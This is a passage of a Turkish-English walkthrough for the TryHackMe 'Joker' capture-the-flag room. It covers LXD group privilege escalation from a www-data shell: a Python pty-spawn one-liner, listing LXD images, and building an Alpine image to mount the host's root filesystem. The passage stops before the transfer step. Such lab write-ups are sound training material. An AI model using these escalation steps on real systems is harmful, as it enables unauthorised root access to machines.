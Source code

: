 ````console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
````

`lxd`

#### Spawn a tty shell.

`python3 -c "import pty;pty.spawn('/bin/bash')"`


#### In this question you should be do a basic research on how linux containers (LXD) work, it has a small online tutorial. Googling "lxd try it online".

https://linuxcontainers.org/lxd/introduction/

#### Research how to escalate privileges using LXD permissions and check to see if there are any images available on the box.

Hint:If there isn't an image already on the box, you may need to upload one...


#### The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory. Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.

````console
www-data@ubuntu:/$ lxc image list
lxc image list
+-------+--------------+--------+------------------------------------+--------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |            DESCRIPTION             |  ARCH  |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+------------------------------------+--------+--------+------------------------------+
|       | a8258f4a885f | no     | Alpine 3.10 amd64 (20191025_13:00) | x86_64 | 2.39MB | Oct 25, 2019 at 8:07pm (UTC) |
+-------+--------------+--------+------------------------------------+--------+--------+------------------------------+
````

Image yok, eklememiz gerekecek.

````console
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Joker/images/11.png?raw=true)

Oluşturulan dosyayı makineye transfer edelim.
